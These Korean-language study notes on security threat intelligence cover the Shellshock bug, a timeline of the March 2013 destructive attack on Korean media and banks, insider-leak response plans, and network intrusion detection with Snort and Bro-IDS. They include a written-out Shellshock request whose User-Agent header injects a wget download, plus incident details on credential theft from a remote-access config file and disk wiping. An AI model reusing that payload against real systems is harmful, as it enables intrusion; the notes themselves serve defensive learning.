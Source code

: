 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

2013년 3월 20일 국내 언론사 몇 곳의 업무 관련 시스템들이 동시 다발적으로 파괴되는 사태가 발생핬다. 이로 인해 실제로 방송이 중단되기도 했다.

* 2010년 이후 발생된 주요 사이버 공격 사례

  11/3/4 : 청와대, 금융 기관, 네이버 대상 DDoS 공격
  11/4/12 : 농협 전산망 마비
  13/3/20 : 주요 언론사 및 금융기관 전산망 동시 장애
  13/6/25 : 청와대 홈페이지 변조, 언론사 및 정부 전산센터 공격
  14/12/15 : 한국수자력발전 내부 정보 유출 공개

지능형 지속 공격은 처음 공격에서 최종 목표를 실행하기까지 최소 6개월 이상 관리자나 사용자 몰래 활동한다.

2015년 미국의 FBI 수배자 명단에 중국의 61398 부대 장교가 올라간 사건이 있었다. 이 장교들의 실명과 부대 명칭은 외국계 보안 업체를 통해 실체가 밝혀지기 시작했고 MANDIANT APT 1 보고서를 통해 APT 기법을 사용하는 해커 그룹의 특징과 실체를 구체적으로 밝혀냈다.

3/20 사태로 돌아가자. 공격 당시 공격자는 이미 확보했던 정보를 이용해 자동화된 스크립트 형태로 시스템 파괴 명령을 자동으로 실행시켰다. 방화벽 로그와 침해 시스템의 시스템 로그, 침입탐지 시스템 로그 등 사건에 연관된 모든 보안 로그를 분석했고, 일련의 추적을 통해 공격자의 타임 테이블을 구성했다.

공격 특징은 사용자 대역, 사무실 대역에 대한 악성코드 감염 / 감염된 내부 시스템을 경유해 서버 하드 디스크 파괴이다.

타임 테이블은

* 사전 준비
  웹쉘 업로드(2012/03/22, 2012/06/20) : 공격 대상 서버에 웹쉘 업로드, 파일 탈취 및 SSH 통신
  애플리케이션 공격(2012/9/4) : PHP 취약점을 이용한 원격 명령 실행
* 성공
  정보 유출(2012/10/13) : 공격 대상 서버에 웹쉘 업로드, 소스 압축 후 유출
  악성코드 배포(2012/10/18) : 공격 대상 서버에 악성코드 유포 링크 삽입
  악성코드 감염(2013/02/08) : 이미지 파일(bd.gif)를 이용해 악성코드 설치
  원격 접근(2013/03/03 00:54:21) : 데이터센터(IDC) 서버 접근
* 확산
  원격 접근 : (03/19 AM 2~4) 단일 소스 IP에서 다수 3389, AM 4~5 다수 SSH
  악성코드 감염 : (03/20 03:53:30) crw.exe 파일 동시 감염(10대 이상)
* 파괴
  2013/03/20 14시 전후 시스템 OS 부팅 영역 손상

공격자는 수년 전부터 다양한 방면으로 공격을 시도했다. 서버를 대상으로 App 취약점윌 이용해 반복적으로 웹쉘 설치 시도, 이후 내부 시스템에 대한 정보(네트워크, App, 사용자 접속 정보)를 꾸준히 수집했다.
때로 웹 서버에 악성코드를 삽입해 일반 사용자 및 내부 사용자에게 악성코드를 감염시키기도 했다.
공격받은 시스템의 복구/차단 과정을 반복적으로 관찰해 가장 효율적인(짧은 시간에 가장 많은 경로로 접근 가능한) 경로를 파악했다.
13/3월 사용자들이 많은 사무실 PC에 대해 공격을 시도해 시스템 관리자 PC가 악성코드에 감염됬고, 관리자 시스템에서 서버 접근 정보(IP, ID, PW)를 수집해 공격을 감행했다.

* 활동 내역
  * 악성코드 감염
    `Crw.exe`는 AV 프로그램에서 진단하지 못하는 타겟 맞춤형 악성코드이다.
    (MD5, SHA-1, Size(Byte)값)

    해당 악성코드는 시스템에 서비스로 등록되 자동 실행된다.
    [HKLM\SYSTEM\CurrentControlSet\Services\xmlprov Defenser]
    ImagePath=%SystemRoot%\System32/svchost.exe -k netsvcs

  * 정보 수집(원격 접속)
    특정 경로의 환경 설정 파일 정보 획득, 문자열 추출을 통해 root 패스워드 확보
    [%appdata%/Felix_Deimel/mRemote/confCons.xml]

  * 시스템 파괴
    최대 10개까지 물리 디스크(\\PHYSICALDRIVE0~9)을 열어 물리 디스크의 MBR, VBR을 PRINCPES 문자열로 반복 기록, 손상
    /kernel,/usr,/etc,/home 폴더를 차례로 rm 명령어를 이용해 삭제

다음 유형은 내부자에 의해 발생될 수 있는 기업의 내부 위협 시나리오다.

### 내부 통제

대형 통신사 대리점에서 내부 정보 조회 프로그램을 이용해 대규모 정보 유출 사건이 일어났다. 이 사건은 정상적인 조회를 가장한 정보 유출 사건으로, 뉴스를 통해 많이 보도됬다.

IT 관리 부서는 외부에서 발생하는 위협을 차단, 대응해야 하며, 내부에서 발생되는 권한 위반, 정책 위반 행위에 대해서도 모니터링하고 대응해야 한다.

* 퇴직자에 의한 내부 자료 유출, 프로젝트 수행 시 발생되는 고객 DB 정보 접근 제어 등 다양한 시나리오가 있다.
  실제 어떤 위협이 발생될지 모르는 상황에서는 위협 대응을 위해 많은 인적 자원, 시스템 자원을 사용하고 있다.

다양한 기업 IT 환경에서 좀 더 효율적인 IT 자산 운영을 위해 필요한 가이드에 대해 내부적/체계적으로 관리할 필요가 잇다.

샘플 시나리오는

* 애플리케이션 통신을 통한 문서 정보 통신

* DB 관련 파일 전송 통신

이고, 이 위협 시나리오가 일어났을 때 어떤 상황에 해당할 수 있는지 상황을 다음 표에 정의한다.

* 애플리케이션 통신을 통한 문서 정보 통신
  단순 시도인지?
  통신이 실제로 성공했는지
* DB 관련 파일 전송 통신
  단순 시도인지?
  통신이 실제로 성공했는지
  유출이 된 것인지

상황이 정의됬다면 상황에 따라 필요한 조치, 즉 액션 플랜을 구분할 수 있다.

* 애플리케이션 통신을 통한 문서 정보 통신
  단순 시도인지? : 선보고 후조치
  통신이 실제로 성공했는지 : 선조치 후보고
* DB 관련 파일 전송 통신
  단순 시도인지? : 선보고 후조치
  통신이 실제로 성공했는지 : 선조치 후보고
  유출이 된 것인지 : 선조치 후보고, 내부 상황 전파

각각 시나리오에 대한 대응 체계를 수립해 내부에서 정보 유출이 발생하거나 심각한 상황일 때 좀 더 일사 분란하게 상황을 정의하고 대응해 나갈수 있게 내부 지침을 만들 수 있다.

정의된 해당 지침 문서를 업무에 적용하려면 다음과 같은 프로세스로 도식화할 수 있다.

|관제 영역|보고|파트너|
|-------------------|
|탐지-검증-대응|대응 보고|예외 처리 절차|
|의심스러운 활동 탐지, 보안 사고 여부 판단, 위험/위협 여부 확인|(취약성 없을 시) 침해 시도 대응, (취약성 있을 시)공격 영향 범위 정의\,보고서 분류 : 위협 분석 보고서, 등급 분류: 위협 등급 정의|보안 위협, 모니터링, 반복 분석(일간/주간/월간), False Positive, False Negative, 예외 처리 승인 및 반영

기업과 조직에서는 다양한 보안 업무 목적에 따라 다양한 솔루션을 사용하고 있다. 대부분의 보안 업무가 보안 솔루션에서 발생되는 이벤트를 시작으로 이뤄진다.

업무 목적에 따라 어떤 분석 솔루션을 이용해야 할지 살펴보자.

## 침입 분석 솔루션

가트너는 2013년 보고서에서 위협 방어 스타일 5가지를 정의했다. 엔드포인트에서 네트워크까지 위협을 방어하는 방법을 정의한 것인데, 그 중 네트워크를 기반으로 한 위협 방어 방법을 살펴볼 것이다.
(5단계는 네트워크 차단 : 네트워크 트래픽 분석, 네트워크 포렌식, 페이로드 : 페이로드 분석, 엔드포인트 : 엔드포인트 행동 분석, 엔드포인트 포렌식이다)

네트워크를 통해 발생되는 위협을 분석하는 방법은 크게 3가지로 구분할 수 있다.

* 네트워크 기반의 침입탐지 시스템
  실시간으로 수집되는 네트워크 패킷 분석을 통해 시그니처 기반의 공격을 탐지한다.
* 모든 네트워크 패킷을 일정 기간 보관 후 사고가 발생할 경우 사고 발생 지점의 전체 네트워크 패킷을 분석
  네트워크 포렌식이라고 불린다.
* 네트워크 페이로드에 포함된 정보를 분석해 애플리케이션 분석 수행 (차세대 제품들의 분석 영역)
  애플리케이션 분석은 FB, 카카오톡 메신저처럼 자체 통신 프로토콜에 의한 분석이다.
* (네 번째, 다섯 번째) : 엔드포인트 기반 행위 분석, 포렌식 (법의학 관점에서 증거 채증 시 활용)

수집된 패킷을 공격 시그니처와 비교해 공격 여부를 탐지하는 동작 방식이 전통적인 네트워크 위협 탐지 기법이다. 많은 사용 네트워크 보안 제품들이 Snort 엔진을 기반으로 동작한다. 즉 잘 알려진 공격 패턴을 네트워크 패킷에서 찾아 공격 여부를 정의한다.

이는 제로데이 공격, APT 공격을 탐지하지 못하므로, 시그니처를 모르는 상태에서 대응하기 위한 해법이 필요해졌고 이런 관점에서 시작된 차세대 침입방지 시스템의 오픈소스 버전이라고 할 수 있는 Bro-IDS에 대해 알아보겠다.

### 네트워크 침입탐지 시스템

[Bro-IDS](https://www.bro.org)



## 패킷 정보 수집

